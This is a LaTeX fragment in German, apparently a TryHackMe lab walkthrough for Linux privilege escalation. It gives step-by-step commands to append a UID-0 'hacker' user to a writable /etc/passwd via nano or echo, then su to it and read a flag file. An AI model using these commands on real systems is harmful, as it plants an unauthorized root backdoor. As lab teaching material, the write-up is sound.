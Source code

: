 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root:/bin/bash um einen root Nutzer zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserReadFlag}
        \caption{Neuen root Nutzer mittels Nano hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen.}
        \label{fig:privilegeEscalation1Screenshot1}
    \end{figure}
    \noindent

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserVersion2}
        \caption{Neuen root Nutzer mittels echo hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen. Da die bash Teils immer noch instabil ist, wird die Zeil falsch dargestellt. Eingegeben wurde der in Schritt 7. angegeben echo Befehl.}
        \label{fig:privilegeEscalation1Screenshot2}
    \end{figure}
    \noindent
\end{document}
